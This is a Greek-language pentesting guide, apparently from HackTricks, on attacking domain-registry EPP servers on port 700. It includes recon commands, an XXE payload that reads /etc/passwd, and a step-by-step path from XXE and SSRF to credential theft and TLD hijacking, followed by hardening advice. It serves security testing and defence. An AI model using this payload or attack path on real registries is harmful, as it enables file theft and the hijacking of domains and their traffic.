# 700 - Pentesting EPP

{{#include ../banners/hacktricks-training.md}}

## Basic Information

Το Extensible Provisioning Protocol (EPP) είναι ένα πρωτόκολλο δικτύου που χρησιμοποιείται για τη **διαχείριση ονομάτων τομέα και άλλων πόρων του διαδικτύου** από μητρώα και καταχωρητές ονομάτων τομέα. Διευκολύνει την αυτοματοποίηση της διαδικασίας καταχώρησης, ανανέωσης, μεταφοράς και διαγραφής ονομάτων τομέα, εξασφαλίζοντας ένα τυποποιημένο και ασφαλές πλαίσιο επικοινωνίας μεταξύ διαφορετικών οντοτήτων στο σύστημα ονομάτων τομέα (DNS). Το EPP έχει σχεδιαστεί ώστε να είναι ευέλικτο και επεκτάσιμο, επιτρέποντας την προσθήκη νέων χαρακτηριστικών και εντολών καθώς οι ανάγκες της υποδομής του διαδικτύου εξελίσσονται.

Βασικά, είναι ένα από τα πρωτόκολλα που ένας **καταχωρητής TLD θα προσφέρει στους καταχωρητές ονομάτων τομέα** για να καταχωρήσουν νέα ονόματα τομέα στο TLD.

### Pentest

[**Σε αυτό το πολύ ενδιαφέρον άρθρο**](https://hackcompute.com/hacking-epp-servers/) μπορείτε να δείτε πώς ορισμένες έρευνες ασφαλείας βρήκαν ότι πολλές **υλοποιήσεις αυτού του πρωτοκόλλου** ήταν ευάλωτες σε XXE (XML External Entity), καθώς αυτό το πρωτόκολλο χρησιμοποιεί XML για την επικοινωνία, γεγονός που θα επέτρεπε στους επιτιθέμενους να αναλάβουν τον έλεγχο δεκάδων διαφορετικών TLDs.

---

## Enumeration & Recon

Οι διακομιστές EPP σχεδόν πάντα ακούνε σε TCP `700/tcp` μέσω TLS. Μια τυπική ανάπτυξη επιβάλλει επίσης **mutual-TLS (mTLS)**, έτσι ώστε ο πελάτης να πρέπει να παρουσιάσει ένα έγκυρο πιστοποιητικό που έχει εκδοθεί από την CA του μητρώου. Παρ' όλα αυτά, πολλές ιδιωτικές δοκιμαστικές ή προπαραγωγικές αναπτύξεις ξεχνούν αυτόν τον έλεγχο:
```bash
# Banner-grabbing / TLS inspection
nmap -p700 --script ssl-cert,ssl-enum-ciphers <target>

# Check if mTLS is *really* required (it frequently is not!)
openssl s_client -connect <target>:700 -quiet \
-servername epp.test 2>/dev/null | head
```
Αν ο διακομιστής δεν τερματίσει τη σύνδεση μετά την αλληλεπίδραση TLS, μπορείτε να προσπαθήσετε να στείλετε ένα μη αυθεντικοποιημένο `<hello/>` μήνυμα:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<epp xmlns="urn:ietf:params:xml:ns:epp-1.0">
<hello/>
</epp>
```
### Ανοιχτού κώδικα πελάτες χρήσιμοι για δοκιμές

* **epp-client (Go)** – ενεργά συντηρούμενος, υποστηρίζει TCP/TLS και EPP-over-HTTPS (RFC 8730):
`go install github.com/domainr/epp/cmd/epp@latest`
* **gandi/go-epp** – ελάχιστη βιβλιοθήκη πελάτη που μπορεί εύκολα να χρησιμοποιηθεί για fuzzing ή ροές εργασίας τύπου nuclei.
* **afq984/php-epp-client** – υλοποίηση PHP που χρησιμοποιείται από πολλούς μικρούς καταχωρητές; ένας βολικός στόχος για ανασκόπηση κώδικα.

Παράδειγμα ελάχιστου script σύνδεσης+ελέγχου με Go epp-client:
```go
package main
import (
"github.com/domainr/epp"
"crypto/tls"
)

func main() {
cfg := &tls.Config{InsecureSkipVerify: true}
c, _ := epp.DialTLS("epp.test:700", cfg)
c.Login("CLIENT_ID", "PASSWORD", nil)
resp, _ := c.DomainCheck("example","com")
println(resp)
}
```
---

## Κοινές Αδυναμίες & Ευπάθειες 2023-2025

| Έτος | Συστατικό | CWE | Επιπτώσεις |
|------|-----------|-----|--------|
| 2023 | CoCCA Registry < 3.5 | CWE-611 XXE | Remote file read & SSRF μέσω κατασκευασμένου `<epp>` payload (patch: 2023-11-02) |
| 2024 | FRED EPP Server 2.x | CWE-322 Ανεπαρκής επικύρωση πιστοποιητικού TLS | Bypass του mTLS επέτρεψε μη εξουσιοδοτημένη είσοδο καταχωρητή |
| 2025 | Ιδιόκτητη κονσόλα καταχωρητή | CWE-306 Ελλιπής Αυθεντικοποίηση για Κρίσιμη Λειτουργία | Το endpoint έγκρισης μεταφοράς τομέα εκτέθηκε μέσω EPP-HTTP bridge |

### XXE / SSRF payload (λειτουργεί κατά πολλών υλοποιήσεων Java/Spring)
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<epp xmlns="urn:ietf:params:xml:ns:epp-1.0">
<command>
<check>
<domain:check xmlns:domain="urn:ietf:params:xml:ns:domain-1.0">
<domain:name>&xxe;</domain:name>
</domain:check>
</check>
</command>
</epp>
```
Όταν ο αναλυτής είναι κακώς ρυθμισμένος (`XMLInputFactory.IS_SUPPORTING_EXTERNAL_ENTITIES=true`), το περιεχόμενο του αρχείου επιστρέφεται μέσα στη δομή `<resData>`.

### Άλλα τυπικά ευρήματα

1. **Αδύναμη πολιτική διαπιστευτηρίων** – Οι κωδικοί πρόσβασης EPP είναι μικρότεροι από 8 χαρακτήρες; η βίαιη επίθεση είναι συχνά εφικτή επειδή η προδιαγραφή μόνο ΣΥΣΤΗΝΕΙ (όχι απαιτεί) περιορισμό ρυθμού.
2. **Απουσία κατάστασης `registryLock` / `serverUpdateProhibited`** – μόλις αυθεντικοποιηθούν, οι επιτιθέμενοι μπορούν αμέσως να ενημερώσουν τα αρχεία NS και να κλέψουν την κίνηση.
3. **Μη υπογεγραμμένα μηνύματα ψηφοφορίας** – ορισμένες υλοποιήσεις εξακολουθούν να μην υπογράφουν τα μηνύματα Q&A ψηφοφορίας, επιτρέποντας την παραποίηση/ψαρέμα των χειριστών μητρώου.

---

## Διαδρομή Επίθεσης: Από το Μηδέν στην Υφαρπαγή TLD

1. Ανακαλύψτε ένα EPP endpoint (συχνά κρυμμένο πίσω από έναν γενικό οικοδεσπότη όπως `ot&e.<tld>.nic.<cc>`).
2. Καταχρήστε μία από τις αδυναμίες παραπάνω για να αποκτήσετε διαπιστευτήρια επιπέδου μητρώου (XXE → SSRF σε IMDSv1, εξαγωγή διαπιστευτηρίων ή παράκαμψη TLS).
3. Εκδώστε αιτήματα `<update>` για να αλλάξετε τα αρχεία `hostObj` του τομέα σε διακομιστές ονομάτων που ελέγχονται από τον επιτιθέμενο.
4. (Προαιρετικά) Υποβάλετε ένα `<transfer>` για να μεταφέρετε τον τομέα σε έναν μητρώο που ελέγχεται από τον επιτιθέμενο – πολλά μητρώα εξακολουθούν να βασίζονται σε έναν **μοναδικό κωδικό αυθεντικοποίησης**.
5. Κέρδος: πλήρης έλεγχος της ζώνης DNS, ικανότητα να ζητάτε πιστοποιητικά TLS μέσω ACME.

---

## Αμυντικά Μέτρα & Σκληραγώγηση

* Επιβάλετε **mTLS με πιστοποιητικά πελάτη ανά μητρώο** και κλειδώστε την CA του μητρώου.
* Ρυθμίστε `parserFeature secure-processing=true` ή ισοδύναμο για να σκοτώσετε το XXE.
* Εκτελέστε **συνεχή fuzzing** του αναλυτή XML (π.χ., με `go-fuzz` ή `jazzer` για Java).
* Αναπτύξτε καταστάσεις **Registry Lock / server*Prohibited** για τομείς υψηλής αξίας.
* Παρακολουθήστε την ουρά `poll` για ύποπτες εντολές `<transfer>` ή `<update>` και ειδοποιήστε σε πραγματικό χρόνο.
* Οι τροποποιήσεις της σύμβασης κατά της κακοποίησης DNS ICANN 2024 απαιτούν από τα μητρώα να αποδείξουν περιορισμούς ρυθμού και ελέγχους αυθεντικοποίησης – εκμεταλλευτείτε τους.

## Αναφορές

* ICANN Security and Stability Advisory Committee (SSAC). "SAC118: Consequences of Registry Operator Failure to Implement EPP Security Controls". 2024.
* HackCompute – "Hacking EPP servers: abusing XXE to hijack TLDs" (2023).
{{#include ../banners/hacktricks-training.md}}
